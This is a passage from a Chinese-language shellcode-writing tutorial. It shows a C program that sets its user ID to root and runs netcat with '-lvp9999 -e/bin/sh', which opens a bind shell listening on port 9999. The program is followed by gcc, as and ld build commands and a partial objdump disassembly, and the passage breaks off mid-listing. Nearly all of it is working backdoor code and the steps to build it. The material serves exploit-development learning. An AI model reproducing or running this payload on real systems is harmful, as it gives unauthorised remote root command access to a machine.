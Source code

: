 3. 调试

```
root@MINDZSEC:~# nano ntcat.c
```



```
#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
#include &lt;unistd.h&gt;
int main()
`{`
setresuid(0,0,0); /* Set res UID 0 0 0 to all program */
char *envp[] = `{` NULL `}`; 
char *argv[] = `{`"/bin/nc", "-lvp9999", "-e/bin/sh", NULL`}`;
int ret = execve("/bin/nc", argv, envp); /* exec the command */
`}`
```

接下来编译这个程序

```
root@MINDZSEC:~# gcc -S ntcat.c (-S switch for asm lang)
```

汇编

```
root@MINDZSEC:~# as ntcat.s -o ntcat.o
```

链接

```
root@MINDZSEC:~# ld ntcat.o -o ntcat
```

运行

```
root@MINDZSEC:~# ./ntcat
```

（其实我写的时候用的是gcc ntcat.c -o ntcat直接编译生成的，并没有照着原作者那样一步一步生成，下图中可以看到，程序运行起来后，是使用nc程序直接监听9999端口的。）

[![](https://p5.ssl.qhimg.com/t01a9f2c3f4685fb9cd.jpg)](https://p5.ssl.qhimg.com/t01a9f2c3f4685fb9cd.jpg)

反汇编程序

```
root@MINDZSEC:~# objdump -d ntcat.o
```

得到



```
ntcat.o:     file format elf32-i386
Disassembly of section .text:
00000000 &lt;main&gt;:
0:55                   push   %ebp
1:89 e5                mov    %esp,%ebp
3:83 e4 f0             and    $0xfffffff0,%esp
6:83 ec 30             sub    $0x30,%esp
9:c7 44 24 08 00 00 00 movl   $0x0,0x8(%esp)
10:00 
11:c7 44 24 04 00 00 00 movl   $0x0,0x4(%esp)
18:00 
19:c7 04 24 00 00 00 00 movl   $0x0,(%esp)
20:e8 fc ff ff ff       call   21 &lt;main+0x21&gt;
25:c7 44 24 28 00 00 00 movl   $0x0,0x28(%esp)
2c:00 
```